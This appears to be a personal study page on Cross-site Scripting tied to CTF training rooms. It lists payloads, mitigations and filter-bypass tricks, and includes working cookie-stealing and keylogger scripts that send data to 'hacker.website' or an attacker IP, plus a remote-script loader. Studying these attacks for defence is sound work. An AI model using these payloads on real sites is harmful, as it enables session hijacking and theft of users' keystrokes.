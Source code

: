 # Cross-site Scripting (XSS)

[Go back](../../index.md)

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![howwebsiteswork](../../../../_badges/thmp/howwebsiteswork.svg)](https://tryhackme.com/room/howwebsiteswork)
[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![xss_injection](../../../../_badges/poat/xss_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
[![xss_filter_evasion](../../../../_badges/owasp/xss_filter_evasion.svg)](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
[![dom_based_xss_prevention](../../../../_badges/owasp/dom_based_xss_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called XSS, refers to injecting malicious JavaScript in a web application for it to be executed by other users. For instance, instead of a username, you could use:

```xml!
<script>alert('XSS')</script>
```

And, if the website isn't protected, then anyone consulting your profile will run the script `alert('XSS')` and will see an alert.

⚠️ When using XSS, you want to hide that you executed some XSS in someone's browser. So, you should ensure that no one sees anything suspicious. For instance, add a username before the XSS.
</div><div>

There are 4 categories of XSS.

* [Reflected XSS](files/rxss.md)
* [Stored XSS](files/sxss.md)
* [DOM-Based XSS](files/dxss.md)
* [Blind XSS](files/bxss.md)

Common mitigations to XSS attacks are:

* 🛑 [Content-Security-Policy (CSP) header](/operating-systems/networking/protocols/http.md#http-headers-in-web-applications)
* 🛡️ Input sanitization <small>(`htmlentities` in PHP)</small>
* 🔎 Input filtering <small>(`strip_tags` in PHP)</small>

💡 XSS may be called HTML Injection when using an HTML payload.
</div></div>

<hr class="sep-both">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>PoC</td><td><code>&lt;p&gt;here&lt;/p&gt;</code></td><td><code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code></td></tr>

<tr><td>PoC</td><td><code>&lt;p&gt;here&lt;/p&gt;</code></td><td><code>&lt;script&gt;console.log('XSS')&lt;/script&gt;</code></td></tr>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>
</tbody></table>

<hr class="sep-both">

## XSS 'malicious code'

<div class="row row-cols-md-2"><div>

Common "malicious code" used in PoC payloads are 

* `alert(...)`: show an alert with a message
* `console.log(...)`: print a message in the console

Real examples of malicious code can be found at [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all).

#### Session hijacking

Anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can bypass verifications such as 2FA and access someone else account of insecure webservers.

```html
<script>fetch('https://hacker.website/hijack?cookie=' + btoa(document.cookie));</script>
<!--
CTF: nc -nlvp port | And use the IP:port
Decode: sed -n 's/GET \/?cookie=\(.*\)/\1/p' request | base64 -d
-->
<script>fetch('http://IP:port/?cookie=' + btoa(document.cookie));</script>
```
</div><div>

#### Keylogger

Sends keys pressed to the hacker website. The script is using `btoa()` to encode in base64 the values.

```html
<script>
    let keys = ''
    document.onkeydown = e => keys += e.key
    setInterval(() => {
        if (keys === '') return
        fetch('https://hacker.website/keylogger?key=' + btoa(keys) )
        keys = ''
    }, 1000)
</script>
```
</div></div>

<hr class="sep-both">

## XSS filter by-pass

<div class="row row-cols-md-2"><div>

There are usually a lot done to avoid XSS attacks, but there is also a lot of way to by-pass weak filters.

* **Logic flaw**: for instance, a dropdown with a list of countries. A user use XSS. The developer didn't filter the value as they expected a value within the list.

* **Bypass HTML symbols filtering**: If `<`, and `>` are filtered, an attacker may still use DOM Based XSS.

* **Bypass DOM Based Filtering**: if there is a filter removing every attribute such as `onload`, `onmouseover`... they could try variants as HTML is case-insensitive.

```xml!
<img src="" ONERROR="alert('XSS')" />
```

* **Polygots**: these are magic payloads designed to bypass many tags/attributes/filters/... at once.

```js!
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

</div><div>

**Bypass keywords filtering**: most functions to filter something will only process the text once. It means that if the hacker knows that something is filtered, they may create a payload that is only working after being filtered. For instance, for a filter removing "&lt;script&gt;", below after filtering "&lt;s" and "cript&gt;" will be concatenated, effectively bypassing the filter.

```html!
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

You can also try variants if the filter is case-sensitive

```html!
<scIpT>alert('XSS');</scIpT>
```

Another way of bypassing keyword filtering is using alternate code. For instance, with the function `alert`, we could do.

```html!
<img src="NOT_FOUND" onerror="eval('aler'+'t')('XSS')">
<!-- unicode in HTML with &# -->
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
<!-- unicode with \u -->
<img src="NOT_FOUND" onerror=\u0061lert('XSS')>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

* Place to check: forms, headers
* `"><script src=//www.example.com/exploit.js></script>`: no http/https?
</div><div>
</div></div>